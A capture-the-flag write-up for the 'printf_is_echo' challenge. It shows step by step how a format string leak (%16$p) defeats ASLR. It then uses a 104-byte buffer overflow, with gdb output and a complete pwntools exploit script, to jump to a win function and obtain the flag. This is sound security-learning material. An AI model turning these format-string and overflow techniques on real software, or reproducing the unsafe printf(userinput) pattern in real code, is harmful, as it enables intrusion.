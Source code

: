 # printf_is_eho

Oh boy. We got by the title what looks to be some sort of challenge involving printf.  Let's run the binary and take a look.

```
did you know the unix tool echo can be implemented with two lines of C? I'll echo some bytes, try it!
boop
boop

I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
Type "I give up" to acknowledge that this binary is unhackable
I give up
```

Uh oh, so ASLR is enabled.  This means we don't know what the address of the win function will be since it changes every time.  If only there was a way to leak addresses from the stack, we might be able to get something.  Well, maybe we can.  

If the `printf` is used in an insecure way, directly passing user controled variables as arguments to the funtion, then we can make really bad things happen.

For example.  What would happen if we have a printf function like this:
`printf(userinput);`
and we passed in `%p`?

Well, it will treat the `%p` as an argument and print the pointer data on the stack.  Let's try it out with the program.

```
%p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p
0x7ffdc72101a0, 0x7fb27237f8d0, 0xf, (nil), 0x7fb2725934c0, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, (nil), 0x5646bc24d79a, 0x5646bc24d690, 0x7ffdc7210210,
I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
```

Well sweet, looks like we got some leaked addresses.  Not only that, but there is an address in the 16th spot that ends in `0x79a`. That's our win function!!

We can make this a bit cleaner by just inputing `%16$p`.  Let's verify this works and we get the right address.

```
did you know the unix tool echo can be implemented with two lines of C? I'll echo some bytes, try it!
%16$p
0x557959a5079a

I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
Type "I give up" to acknowledge that this binary is unhackable
```

Awesome.  Next step now that we have the win function is to try to get our program to return to it. This will probably be accomplised via a buffer overflow attack on the second input option. And after messing around a bit, I was able to find that the buffer we had was going to be 104 bytes before we started overwriting the instruction pointer:

```
gdb-peda$ r
Starting program: /home/perchik/CTF/osuleague/week4/printf_is_echo
did you know the unix tool echo can be implemented with two lines of C? I'll echo some bytes, try it!
boop
boop

I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
Type "I give up" to acknowledge that this binary is unhackable
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0xf
RDX: 0x7ffff7dd18d0 --> 0x0
RSI: 0x7fffffffde80 ('A' <repeats 96 times>, "BBBBBBBB\n")
RDI: 0x7fffffffde81 ('A' <repeats 95 times>, "BBBBBBBB\n")
RBP: 0x4242424242424242 ('BBBBBBBB')
```

So, we have a way of getting the address of win(), we know our padding size. We can now build an exploit!

```python
from pwn import *
import os, sys
#io = process('./printf_is_echo')
io = remote('ctf.ropcity.com', 31338)

context(arch = "amd64")

io.recvuntil("try it!\n")

printf = "%16$p"

io.sendline(printf)

win = int(io.recvline(), 16)
log.info(win)

padding = b'A'*104
io.recvuntil('unhackable')
payload = padding + p64(win)

io.sendline(payload)
io.interactive()
```

And after running it we get the flag!

```
[+] Opening connection to ctf.ropcity.com on port 31338: Done
[*] 94681416755098
[*] Switching to interactive mode

osu{F0rMa7_$tRing_1s_FUN}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x03
[*] Got EOF while reading in interactive
```
Woot! Major Pog.  That was a fun challenged and learned a lot about how format string vulns work!
